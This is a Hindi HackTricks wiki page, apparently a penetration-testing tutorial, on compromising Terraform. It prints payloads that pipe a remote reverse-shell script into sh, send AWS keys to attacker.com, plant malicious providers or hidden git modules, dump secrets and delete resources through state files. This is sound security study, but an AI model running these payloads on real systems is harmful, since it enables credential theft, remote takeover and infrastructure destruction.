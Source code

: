 # टेर्राफॉर्म सुरक्षा

<details>

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम विशेषज्ञ (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम विशेषज्ञ (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}

## मौलिक जानकारी

[दस्तावेज़ से:](https://developer.hashicorp.com/terraform/intro)

HashiCorp Terraform एक **इंफ्रास्ट्रक्चर के रूप में कोड उपकरण** है जो आपको मानव-पठनीय कॉन्फ़िगरेशन फ़ाइलों में **क्लाउड और ऑन-प्रेम संसाधनों** को परिभाषित करने देता है जिन्हें आप संस्करण, पुनः उपयोग और साझा कर सकते हैं। आप फिर एक संरचित वर्कफ़्लो का उपयोग कर सकते हैं जिससे आप अपने सभी इंफ्रास्ट्रक्चर का प्रावधान और प्रबंधन कर सकते हैं। टेर्राफॉर्म निम्न स्तरीय घटकों का प्रबंधन कर सकता है जैसे कंप्यूट, स्टोरेज, और नेटवर्किंग संसाधन, साथ ही DNS एंट्रीज और SaaS सुविधाएँ जैसे उच्च स्तरीय घटकों का भी।

### टेर्राफॉर्म कैसे काम करता है?

टेर्राफॉर्म क्लाउड प्लेटफ़ॉर्मों और अन्य सेवाओं पर संसाधन बनाता है और प्रबंधित करता है उनके एप्लिकेशन प्रोग्रामिंग इंटरफेस (APIs) के माध्यम से। प्रदाताएँ टेर्राफॉर्म को लगभग किसी भी प्लेटफ़ॉर्म या सेवा के साथ काम करने की संभावना प्रदान करती हैं।

![](<../.gitbook/assets/image (177).png>)

HashiCorp और टेर्राफॉर्म समुदाय ने पहले से ही **1700 से अधिक प्रदाताओं** को लिखा है जो हजारों विभिन्न प्रकार के संसाधनों और सेवाओं का प्रबंधन करने के लिए हैं, और यह संख्या बढ़ती जा रही है। आप सभी सार्वजनिक उपलब्ध प्रदाताओं को [टेर्राफॉर्म रजिस्ट्री](https://registry.terraform.io/) पर पा सकते हैं, जिसमें अमेज़न वेब सेवाएँ (AWS), एज़्यूर, गूगल क्लाउड प्लेटफ़ॉर्म (GCP), कुबरनेटीज़, हेल्म, गिटहब, स्प्लंक, डेटाडॉग, और बहुत कुछ शामिल हैं।

मूल टेर्राफॉर्म वर्कफ़्लो तीन चरणों से मिलकर बनता है:

* **लिखें:** आप संसाधनों को परिभाषित करते हैं, जो कि कई क्लाउड प्रदाताओं और सेवाओं पर हो सकते हैं। उदाहरण के लिए, आप एक एप्लिकेशन को वर्चुअल मशीनों पर एक कॉन्फ़िगरेशन डिप्लॉय करने के लिए एक कॉन्फ़िगरेशन बना सकते हैं जिसमें सुरक्षा समूह और लोड बैलेंसर के साथ एक वर्चुअल प्राइवेट क्लाउड (VPC) नेटवर्क हो।
* **योजना:** टेर्राफॉर्म एक निष्पादन योजना बनाता है जो आपकी मौजूदा इंफ्रास्ट्रक्चर और आपकी कॉन्फ़िगरेशन पर आधारित होकर उस इंफ्रास्ट्रक्चर को बनाएगा, अपडेट करेगा, या नष्ट करेगा।
* **लागू करें:** मंजूरी पर, टेर्राफॉर्म सही क्रम में प्रस्तावित ऑपरेशन करेगा, किसी भी संसाधन आवश्यकताओं का सम्मान करते हुए। उदाहरण के लिए, अगर आप एक VPC की गुणवत्ता को अपडेट करते हैं और उस VPC में वर्चुअल मशीनों की संख्या बदलते हैं, तो टेर्राफॉर्म पहले VPC को पुनः बनाएगा फिर वर्चुअल मशीनों को स्केल करेगा।

![](<../.gitbook/assets/image (215).png>)

## टेर्राफॉर्म लैब

अपने कंप्यूटर में टेर्राफॉर्म स्थापित करें।

यहाँ आपके पास एक [गाइड](https://learn.hashicorp.com/tutorials/terraform/install-cli) है और यहाँ आपके पास [टेर्राफॉर्म डाउनलोड करने का सबसे अच्छा तरीका](https://www.terraform.io/downloads) है।

## टेर्राफॉर्म में RCE

टेर्राफॉर्म **किसी भी प्लेटफ़ॉर्म को एक वेब पेज या नेटवर्क सेवा उजागर नहीं करता**, इसलिए, टेर्राफॉर्म को कंप्रोमाइज करने का **एकमात्र तरीका** है **टेर्राफॉर्म कॉन्फ़िगरेशन फ़ाइलों को जोड़ने/संशोधित करने की क्षमता** होना।

हालांकि, टेर्राफॉर्म एक **बहुत ही संवेदनशील घटक** है कंप्रोमाइज करने के लिए क्योंकि इसके पास **विशेषाधिकारित पहुंच** होती है विभिन्न स्थानों तक ताकि यह सही ढंग से काम कर सके।

एक हमलावियों के लिए मुख्य तरीका यह है कि हमलावियों को वह सिस्टम कंप्रोमाइज करने की क्षमता हो जहाँ टेर्राफॉर्म चल रहा है, क्योंकि किसी न किसी समय वे **व्याख्यात** होने वाले हैं।

वास्तव में, वहाँ समाधान हैं जो **PR बनाए जाने के बाद स्वचालित रूप से टेर्राफॉर्म प्लान/लागू करते हैं**, जैसे कि **एटलांटिस**:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

अगर आप एक टेर्राफॉर्म फ़ाइल को कंप्रोमाइज करने में सक्षम हैं तो आप `terraform plan` या `terraform apply` को किसी ने निष्पादित करने पर RCE करने के विभिन्न तरीके हैं।

### टेर्राफॉर्म प्लान

टेर्राफॉर्म प्लान टेर्राफॉर्म में **सबसे अधिक उपयोग की जाने वाली कमांड** है और डेवलपर/समाधान जो टेर्राफॉर्म का उपयोग करते हैं उन्हें इसे हर समय कॉल करते हैं, इसलिए **RCE प्राप्त करने का सबसे आसान तरीका** यह है कि आप एक टेर्राफॉर्म कॉन्फ़िगरेशन फ़ाइल को जहाँ `terraform plan` में विभिन्न कमांड्स को निष्पादित करने वाला एक टेर्राफॉर्म कॉन्फ़िगरेशन फ़ाइल को दुषित करने का सुनिश्चित करें।

#### एक बाह्य प्रदाता का उपयोग

टेर्राफॉर्म एक [`external` प्रदाता](https://registry.terraform.io/providers/hashicorp/external/latest/docs) प्रदान करता है जो
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### एक कस्टम प्रदाता का उपयोग

एक हमलाविमान एक [कस्टम प्रदाता](https://learn.hashicorp.com/tutorials/terraform/provider-setup) को [टेराफ़ॉर्म रजिस्ट्री](https://registry.terraform.io/) पर भेज सकता है और फिर इसे टेराफ़ॉर्म कोड में जोड़ सकता है एक फीचर ब्रांच में ([यहाँ से उदाहरण](https://alex.kaskaso.li/post/terraform-plan-rce)):
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
प्रदाता `init` में डाउनलोड किया जाता है और जब `plan` कार्यान्वित होता है, तो दुर्भाग्यपूर्ण कोड चलाया जाएगा।

आप एक उदाहरण [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec) में पा सकते हैं।

#### एक बाहरी संदर्भ का उपयोग करें

उल्लिखित विकल्प दोनों उपयोगी हैं, लेकिन बहुत गुप्त (दूसरा पहले से अधिक गुप्त है लेकिन पहले से अधिक जटिल है)। आप इस हमला भी एक **और गुप्त तरीके से** कर सकते हैं, इन सुझावों का पालन करके:

* टेराफ़ॉर्म फ़ाइल में रेव शैल निर्देशित रूप से जोड़ने की बजाय, आप एक बाहरी संसाधन लोड कर सकते हैं जिसमें रेव शैल है:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
आप [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules) में rev shell कोड पा सकते हैं।

* बाहरी संसाधन में, **ref** फ़ीचर का उपयोग करें **terraform rev shell कोड को छुपाने के लिए एक शाखा** रेपो के अंदर, कुछ इस प्रकार: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Apply

Terraform apply को सभी परिवर्तन लागू करने के लिए निष्पादित किया जाएगा, आप इसका दुरुपयोग करके RCE प्राप्त करने के लिए भी कर सकते हैं **एक दुर्भाग्यपूर्ण Terraform फ़ाइल को इंजेक्ट करके** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**।**\
आपको बस यह सुनिश्चित करना होगा कि कुछ पेलोड जैसे निम्नलिखित एक `main.tf` फ़ाइल में समाप्त होते हैं:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
अपनाएं **पिछली तकनीक से सुझाव** इस हमले को **बाहरी संदर्भों का उपयोग करके एक गुप्त तरीके से** करने के लिए।

## रहस्य डंप

आप **टेर्राफॉर्म द्वारा उपयोग किए जाने वाले गुप्त मान्यताएँ डंप कर सकते हैं** `terraform apply` चलाकर टेर्राफॉर्म फ़ाइल में कुछ जोड़कर:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Terraform स्थिति फ़ाइलों का दुरुपयोग

यदि आपके पास टेराफ़ॉर्म स्थिति फ़ाइलों पर लेखन पहुंच है लेकिन आप टेराफ़ॉर्म कोड नहीं बदल सकते, [**यह शोध**](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/) कुछ दिलचस्प विकल्प देता है फ़ाइल का लाभ उठाने के लिए:

### संसाधनों को हटाना <a href="#deleting-resources" id="deleting-resources"></a>

संसाधनों को नष्ट करने के 2 तरीके हैं:

1. **स्थिति फ़ाइल में एक यादृच्छिक नाम के संसाधन को डालें जो वास्तविक संसाधन को नष्ट करने के लिए इशारा कर रहा है**

क्योंकि टेराफ़ॉर्म देखेगा कि संसाधन मौजूद नहीं होना चाहिए, इसे नष्ट कर देगा (वास्तविक संसाधन आईडी का पालन करते हुए). पिछले पृष्ठ से उदाहरण:
```json
{
"mode": "managed",
"type": "aws_instance",
"name": "example",
"provider": "provider[\"registry.terraform.io/hashicorp/aws\"]",
"instances": [
{
"attributes": {
"id": "i-1234567890abcdefg"
}
}
]
},
```
2. **संसाधन को ऐसे संशोधित करें जिसे अपडेट करना संभव नहीं हो (ताकि इसे हटाया और पुनः बनाया जाए)**

एक EC2 इंस्टेंस के लिए, इंस्टेंस के प्रकार को संशोधित करना काफी है ताकि टेराफ़ॉर्म उसे हटाए और पुनः बनाए।

### RCE

एक कस्टम प्रोवाइडर [बनाना संभव है](https://developer.hashicorp.com/terraform/tutorials/providers-plugin-framework/providers-plugin-framework-provider) और टेराफ़ॉर्म स्टेट फ़ाइल में एक प्रोवाइडर को दुर्भाग्यपूर्ण बनाने या एक खाली संसाधन जोड़ने के लिए एक खतरनाक प्रोवाइडर के साथ उसे प्रतिस्थापित करना भी संभव है। मूल अनुसंधान से उदाहरण:
```json
"resources": [
{
"mode": "managed",
"type": "scaffolding_example",
"name": "example",
"provider": "provider[\"registry.terraform.io/dagrz/terrarizer\"]",
"instances": [

]
},
```
## ब्लैकलिस्ट किए गए प्रोवाइडर को बदलें

यदि आपको `hashicorp/external` को ब्लैकलिस्ट किया गया है, तो आप निम्नलिखित करके `external` प्रोवाइडर को पुनः लागू कर सकते हैं। ध्यान दें: हम `https://registry.terraform.io/providers/nazarewk/external/latest` द्वारा प्रकाशित एक external प्रोवाइडर का फोर्क का उपयोग करते हैं। आप अपना खुद का फोर्क या पुनर्व्यवस्थापन भी प्रकाशित कर सकते हैं।
```terraform
terraform {
required_providers {
external = {
source  = "nazarewk/external"
version = "3.0.0"
}
}
}
```
तो आप `external` का सामान्य रूप से उपयोग कर सकते हैं।
```terraform
data "external" "example" {
program = ["sh", "-c", "whoami"]
}
```
## मंजूरी उपकरण

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec आपके टेर्राफॉर्म कोड का स्थैतिक विश्लेषण करता है ताकि संभावित गलतियों को पहचान सके।
* [**terascan**](https://github.com/tenable/terrascan): Terrascan एक स्थैतिक कोड विश्लेषक है इंफ्रास्ट्रक्चर एस कोड के लिए।

## संदर्भ

* [Atlantis Security](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)
* [https://blog.plerion.com/hacking-terraform-state-privilege-escalation/](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/)

<details>

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम विशेषज्ञ (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम विशेषज्ञ (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}
